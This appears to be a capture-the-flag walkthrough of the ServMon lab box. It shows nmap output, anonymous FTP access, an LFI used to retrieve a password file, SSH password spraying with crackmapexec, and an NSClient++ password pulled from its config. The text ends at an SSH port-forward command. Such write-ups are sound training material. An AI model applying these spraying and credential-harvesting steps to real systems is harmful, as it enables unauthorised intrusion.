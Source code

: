 Scanning with nmap gives us 9 open ports.

FTP is open and anonymous authentication is enabled:
```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
```

Opening a connection to the FTP server, it loads us into the *Users* directory on the Windows box.
On the two user profiles, we get two files:

```bash
ftp> dir
229 Entering Extended Passive Mode (|||49679|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM       <DIR>          Nadine
02-28-22  06:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> dir Nadine
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> dir Nathan
229 Entering Extended Passive Mode (|||49681|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> 
```

Browsing through the web pages shown available by the nmap scan, we can see port 80 is running a security application called *NVMS-1000*.


Researching this security management platform, you'll find a CVE showing a LFI exploit. We can use this to find the `passwords.txt` file that nadia mentions.

We'll save the passwords locally onto our machine, and we'll create another file of known usernames to use to try and find valid passwords.
The nmap scan discovered that SSH is open on the machine, so we'll try the list of usernames & passwords against that service
```bash
crackmapexec ssh 10.10.10.184 -u usernames -p passwords

SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [+] Nadine:L1k3B1gBut7s@W0rk 

```
Shortly after starting, we get a hit on the password `L1k3B1gBut7s@W0rk`
We'll use this to get an SSH session on the box:

```bash
ssh nadine@10.10.10.184

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>cd Desktop          

nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.                   
 Volume Serial Number is 20C1-47A1                 
                                                   
 Directory of C:\Users\Nadine\Desktop              
                                                   
02/28/2022  07:05 PM    <DIR>          .           
02/28/2022  07:05 PM    <DIR>          ..          
01/13/2025  03:32 AM                34 user.txt    
               1 File(s)             34 bytes      
               2 Dir(s)   6,131,089,408 bytes free 
                                                   
nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt 
35bbddd4146b22e729efd89eb92aa234
```

Now that we have a foothold on the system, we can go back to our nmap scan to review avenues for PrivEsc.
nmap identified another web service running at `https://10.10.10.184:8443`:

```bash
8443/tcp open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
```

Browsing to this page, it's a service called NSClient++:


We can dig through the system files now that we have an authenticated session.
The NSClient++ program files live in the `C:\Program File\NSClient++` folder. Here we can find the main .ini file, containing a password:

```powershell
---snip---
; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
---snip---
```

We can then use the nscp command line module to check the version of NSClient++:
```powershell
PS C:\Program Files\NSClient++> .\nscp.exe --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
``` 

None of the exploit db articles I read around nscp NSClient vulnerabilities worked, so I re-authed the SSH session using `sshpass` tunnel.
`sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443`
This allows me to access the web portal for NSClient++





